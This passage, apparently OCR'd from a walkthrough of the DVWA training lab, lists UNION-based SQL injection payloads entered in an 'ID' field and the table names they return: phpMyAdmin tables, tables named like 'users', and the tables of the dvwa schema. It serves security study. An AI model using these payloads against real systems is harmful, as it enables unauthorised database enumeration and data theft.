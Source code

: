 Surname: pma__history
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__navigationhiding
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__pdf_pages
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__recent
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__relation
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__savedsearches
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__table_coords
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__table_info
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__table_uiprefs
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__tracking
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__userconfig
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__usergroups
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__users

9. Display all the users tables in information_schema:  

ID: %' OR 1=0 union select null,table_name from information_schema.tables where  table_name like 'users%'# 
First name: 
Surname: users

or Display all tables of database

ID: ' union select table_name,table_name from  information_schema.tables where table_schema='dvwa'#
First name: guestbook
Surname: guestbook
ID: ' union select table_name,table_name from  information_schema.tables where table_schema='dvwa'#
First name: users
Surname: users

